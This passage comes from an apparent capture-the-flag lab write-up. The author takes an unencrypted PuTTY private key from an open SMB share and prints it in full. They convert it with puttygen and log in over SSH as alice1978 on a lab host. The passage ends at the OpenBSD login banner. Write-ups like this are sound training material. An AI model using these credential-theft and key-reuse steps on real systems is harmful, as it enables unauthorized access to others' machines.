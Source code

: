 smb: \> dir
.                                   D        0  Mon Jul 30 22:54:20 2018
..                                  D        0  Tue Jul 31 23:16:50 2018
my_private_key.ppk                  A     1460  Mon Jul 16 21:38:51 2018

            433262 blocks of size 1024. 411540 blocks available

smb: \> get my_private_key.ppk
getting file \my_private_key.ppk of size 1460 as my_private_key.ppk (17.2 KiloBytes/sec) (average 17.2 KiloBytes/sec)
smb: \> exit
Shell As alice Via SSH
Convert Key
The key I collected from SMB was a .ppk format. It has both the private and public parts in one file:
root@kali# cat my_private_key.ppk
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: rsa-key-20180716
Public-Lines: 6
AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz
1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02qux
BoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAj
h7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/Sxa
iA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWx
ivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw==
Private-Lines: 14
AAABAH0knH2xprkuycHoh18sGrlvVGVG6C2vZ9PsiBdP/5wmhpYI3Svnn3ZL8CwF
VGaXdidhZunC9xmD1/QAgCgTz/Fh5yl+nGdeBWc10hLD2SeqFJoHU6SLYpOSViSE
cOZ5mYSy4IIRgPdJKwL6NPnrO+qORSSs9uKVqEdmKLm5lat9dRJVtFlG2tZ7tsma
hRM//9du5MKWWemJlW9PmRGY6shATM3Ow8LojNgnpoHNigB6b/kdDozx6RIf8b1q
Gs+gaU1W5FVehiV6dO2OjHUoUtBME01owBLvwjdV/1Sea/kcZa72TYIMoN1MUEFC
3hlBVcWbiy+O27JzmDzhYen0Jq0AAACBANTBwU1DttMKKphHAN23+tvIAh3rlNG6
m+xeStOxEusrbNL89aEU03FWXIocoQlPiQBr3s8OkgMk1QVYABlH30Y2ZsPL/hp6
l4UVEuHUqnTfEOowVTcVNlwpNM8YLhgn+JIeGpJZqus5JK/pBhK0JclenIpH5M2v
4L9aKFwiMZxfAAAAgQDG+o9xrh+rZuQg8BZ6ZcGGdszZITn797a4YU+NzxjP4jR+
qSVCTRky9uSP0i9H7B9KVnuu9AfzKDBgSH/zxFnJqBTTykM1imjt+y1wVa/3aLPh
hKxePlIrP3YaMKd38ss2ebeqWy+XJYwgWOsSw8wAQT7fIxmT8OYfJRjRGTS74QAA
AIEAiOHSABguzA8sMxaHMvWu16F0RKXLOy+S3ZbMrQZr+nDyzHYPaLDRtNE2iI5c
QLr38t6CRO6zEZ+08Zh5rbqLJ1n8i/q0Pv+nYoYlocxw3qodwUlUYcr1/sE+Wuvl
xTwgKNIb9U6L6OdSr5FGkFBCFldtZ/WSHtbHxBabb0zpdts=
Private-MAC: 208b4e256cd56d59f70e3594f4e2c3ca91a757c9
However, to make use of this against an OpenBSD target (or Linux target), I’ll need to convert it to OpenSSH format. To do that, I’ll use puttygen, which I can install with apt install putty-tools. Then I’ll call puttygen, telling it that the output should be a private openssh formatted key (-O) and outputting the result to a file (-o) :
root@kali# puttygen my_private_key.ppk -O private-openssh -o alice.pem

root@kali# file alice.pem
my_private_key: PEM RSA private key
Shell as alice1978
Now I can connect as alice1978 using that key and get a shell, and user.txt:
root@kali# ssh -i alice.pem [alice1978@10.10.10.107](mailto:alice1978@10.10.10.107)
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018
